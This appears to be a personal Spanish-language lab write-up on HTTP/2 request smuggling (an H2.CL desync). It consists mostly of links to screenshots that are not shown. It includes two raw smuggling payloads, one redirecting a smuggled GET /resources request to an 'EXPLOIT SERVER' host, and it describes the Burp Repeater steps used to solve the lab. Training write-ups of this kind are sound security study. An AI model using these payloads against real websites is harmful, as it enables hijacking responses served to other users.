 ![[Pasted image 20230721185515.png]]

![[Pasted image 20230721185542.png]]

payload para combinar:

POST / HTTP/2
Host: XXXX
Content-Length: 0

GET /resources HTTP/1.1
Host: XXXX
Content-Length: 5

x=1

POST / HTTP/2
Host: XXXX
Content-Length: 0

GET /resources HTTP/1.1
Host: EXPLOIT SERVER
Content-Length: 5

x=1

![[Pasted image 20230721190511.png]]

![[Pasted image 20230721190533.png]]

![[Pasted image 20230721190647.png]]

mando al repeater, cambio el request, version 2 y no update al content - length junto con el Allo HTTP/2

![[Pasted image 20230721190824.png]]

cambio en el exploit server:

![[Pasted image 20230721191056.png]]

y lo guardo, hago los cambios en el repeater:

![[Pasted image 20230721191227.png]]

luego de obtener dos o tres 200 obtuve un 302:

![[Pasted image 20230721191306.png]]

luego le sigo dando mas send, obtengo varios 200 luego un 302 pero no se resuelve el lab. Notese que en la imagen de arriba hay un problema  y es que estoy enviando un request a //resources. Esto se debe porque en el GET /resources deje un slash adelante, corrigiendo:

![[Pasted image 20230722074811.png]]

basto con enviar un request y listo:

![[Pasted image 20230722074840.png]]

![[Pasted image 20230722074857.png]]